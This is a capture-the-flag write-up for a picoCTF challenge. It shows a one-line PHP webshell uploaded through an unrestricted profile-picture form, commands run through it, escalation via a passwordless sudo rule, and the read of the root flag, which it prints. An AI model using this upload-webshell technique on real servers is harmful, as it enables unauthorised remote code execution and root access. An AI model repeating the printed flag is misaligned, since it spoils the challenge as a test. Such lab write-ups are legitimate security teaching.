

We start with a web instance that has a profile picture upload feature:


I upload a .png I have lying around, `example.png` and we get this in response:
```
The file example.png has been uploaded Path: uploads/example.png 
```

There are two key pieces of information from uploading:
- The `uploads` directory is leaked, so we know where are file is uploaded.
- Looking at the URL after uploading it is on `/upload.php`, so we know its running with PHP!

File Upload + PHP generally means webshell! Let's use this one from [Tiny-PHP-Webshell](https://github.com/bayufedra/Tiny-PHP-Webshell).

I make a `example.php` with this content:
```php
<?=`$_GET[0]`?>
```

After uploading we get:
```
The file example.php has been uploaded Path: uploads/example.php 
```

Let's visit `/uploads/example.php?0=id`:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Woo RCE! Let's find the flag.

Visiting `/uploads/example.php?0=ls /`:
```
bin boot challenge dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var 
```

After a lot of poking, we obviously can't get much further and there is a key indication _why_ in the hints:
> Hint: Whenever you get a shell on a remote machine, check `sudo -l`

We need to see what binaries we can run as `sudo`, visiting `/example.php?0=sudo -l` we get:
```
Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin 
User www-data may run the following commands on challenge: 
(ALL) NOPASSWD: ALL 
```

`(ALL) NOPASSWD: ALL` means we can run all binaries with sudo without specifying a password, meaning no interactive shell needed!

So we can read inside the `/root` folder! Let's use `/uploads/example.php?0=sudo ls /root`:
```
flag.txt
```

Finally, `/uploads/example.php?0=sudo cat /root/flag.txt`:
```
picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
```

Flag: `picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}`


